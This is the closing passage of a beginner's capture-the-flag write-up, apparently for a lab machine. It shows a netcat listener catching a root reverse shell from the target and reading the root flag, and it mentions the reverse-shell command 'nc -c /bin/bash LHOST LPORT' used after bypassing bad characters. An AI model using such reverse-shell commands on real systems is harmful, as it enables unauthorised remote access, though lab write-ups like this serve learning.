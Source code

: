 ```
root@kali:/# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 46397
whoami
root

cat /root/root.txt
d08c32a5d4...
```
We did it! we knew it was going to work because we were able to identify the badchars and also bypasse them, also send us the output of the injected commands through netcat, if it didn't work with the typical nc -c /bin/bash LHOST LPORT, it worked with the old version. 

Thank you very much for reading! This is my second writeup, my idea is to make them for people who started very recently in pentesting. The idea is to learn from each other and above all LEARN! thanks for reading, see you in the next one!

